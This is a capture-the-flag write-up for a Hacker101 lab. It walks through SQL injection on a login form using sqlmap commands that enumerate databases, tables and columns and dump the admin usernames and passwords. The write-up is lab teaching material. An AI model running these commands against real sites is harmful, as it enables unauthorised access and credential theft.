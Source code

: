 # Hacker101-CTF FLAG 2
We are want to try and obtain the username and password to log in, in the previous flag we noticed that we can get thought without the username but what about the password?

In this case we already know that the input fields are susceptible to SQLI so maybe we can expoit it making use of slqmap.

First of all im gonna go ahead and try to obtain the databases if there is any vulnerability.

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs`

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

Im getting this message:
`[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'`

Im gonna try and increase de level value to 2

`sqlmap -u "https:/{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2`

Looks like im getting more juice this time!

`[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'`
`it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y`
`for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y`

Im getting this message as well, im gonna go ahead and try to vulnerate only the username field.

`[INFO] checking if the injection point on POST parameter 'username' is a false positive`
`POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N `

Finally got some results! I got all the databases, im gonna take a look into level2 database

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables`

Lets get into admins table and see its columns

`qlmap -u "https:/{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns`

Now lets have a look into the usernames! Dump it!

`qlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump`

Now lets retrieve the pass

`sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump`

Now lets try log in. Got it! We have the last flag


